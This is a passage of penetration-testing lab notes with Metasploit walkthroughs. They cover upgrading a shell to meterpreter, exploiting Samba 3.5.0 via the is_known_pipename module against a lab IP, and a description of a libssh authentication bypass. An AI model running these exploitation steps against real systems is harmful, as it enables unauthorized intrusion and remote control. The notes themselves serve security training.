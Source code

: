 Upgrade shell to meterpreter.

```bash
msf6> use multi/manage/shell_to_meterpreter
msf6> set lhost eth1
msf6> set session 1
msf6> run
```

Go to the new session.

```bash
msf6> sessions 2
meterpreter> sysinfo
```

### Linux : Samba

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN.
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
* **Samba V3.5.0** is vulnerable to a RCE vulnerability, allowing a malicious client to upload a shared library to a writable share, and then cause the server to load and execute it.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a samba
msf6> db_nmap -sS -sV -O 192.182.79.3

msf6> search type:exploit name:samba
msf6> use exploit/linux/samba/is_known_pipename
msf6> check
msf6> run

# Ctrl+Z
```

Upgrade shell to meterpreter.

```bash
msf6> search shell_to_meterpreter
msf6> use shell/multi/manager/shell_to_meterpreter
msf6> set lhost eth1
msf6> run

meterpreter> sysinfo
```

### Linux : SSH

* SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side.
* **libssh V0.6.0-0.8.0** is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server.
